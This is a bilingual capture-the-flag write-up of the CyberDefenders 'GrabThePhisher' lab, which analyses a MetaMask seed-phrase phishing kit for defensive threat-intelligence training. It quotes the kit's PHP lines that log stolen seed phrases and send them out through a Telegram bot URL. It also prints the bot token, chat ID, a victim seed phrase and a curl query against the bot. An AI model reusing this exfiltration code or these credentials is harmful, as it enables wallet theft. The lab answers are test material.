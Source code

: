 +++
title = "GrabThePhisher - Cyberdefenders (Easy)"
+++

###### Category: Threat Intel

[link del laboratorio GrabThePhisher](https://cyberdefenders.org/blueteam-ctf-challenges/grabthephisher/)

## Descargar laboratorio y moverlo a la máquina virtual REMnux

### unzip lab

```bash
7z x 95-GrabThePhisher.zip -pcyberdefenders.org
```
---


## Preguntas

### Q1

Which wallet is used for asking the seed phrase?

¿Qué monedero se utiliza para pedir la frase semilla?

![first question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab1.png)

#### Respuesta

`Metamask`

### Q2

What is the file name that has the code for the phishing kit?

¿Cuál es el nombre del archivo que contiene el código del kit de phishing?

#### Respuesta

`metamask.php`

### Q3

In which language was the kit written?

¿En qué lenguaje fue desarrollado el kit?


#### Respuesta

`php`


### Q4


What service does the kit use to retrieve the victim's machine information?

¿Qué servicio utiliza el kit para recuperar la información de la máquina de la víctima?


![fourth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab2.png)

#### Respuesta

`sypex geo`

### Q5

How many seed phrases were already collected?

¿Cuántas frases con semilla se han recopilado ya?

*En el código se puede ver que las frases semilla se escriben en un archivo log.txt*

```php
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND); 
```

![fifth question phishinglab](/images/labs/cyberdefenders/grabthephisher/phishinglab3.png)

#### Respuesta

`3`

### Q6

Write down the seed phrase of the most recent phishing incident

Escriba la frase semilla del incidente de phishing más reciente

#### Respuesta

```bash
father also recycle embody balance concert mechanic believe owner pair muffin hockey 
```

### Q7

Which medium had been used for credential dumping?

¿Qué medio se había utilizado para el robo de credenciales?

*Línea de código presente en el archivo metamask.php*

```php
$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html"; 
```

#### Respuesta

`telegram`

### Q8

What is the token for the channel?

¿Cuál es el token del canal?

*Línea de código presente en el archivo metamask.php*

```php
$token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

#### Respuesta

`5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`


### Q9

What is the chat ID of the phisher's channel?

¿Cuál es el ID de chat del canal del autor del phishing?

*Línea de código presente en el archivo metamask.php*

```php
$id = "5442785564"; 
```

#### Respuesta

`5442785564`

### Q10

What are the allies of the phish kit developer?

¿Cuáles son los aliados del desarrollador del kit de phishing?


*Comentario encontrado en el código fuente del archivo metamask.php*

```php
/*

 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
*/  
```

#### Respuesta

`j1j1b1s@m3r0`

### Q11

What is the full name of the Phish Actor?

¿Cuál es el nombre completo del creador del phishing?

```bash
curl https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat\?chat_id\=5442785564 | jq 
```


```bash
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ],
    "max_reaction_count": 11,
    "accent_color_id": 6
  }
}  
```

#### Respuesta

`Marcus Aurelius`


### Q12

What is the username of the Phish Actor?

¿Cuál es el nombre de usuario del creador del phishing?

```bash  
"active_usernames": [
      "pumpkinboii"
    ],
```

#### Respuesta

`pumpkinboii`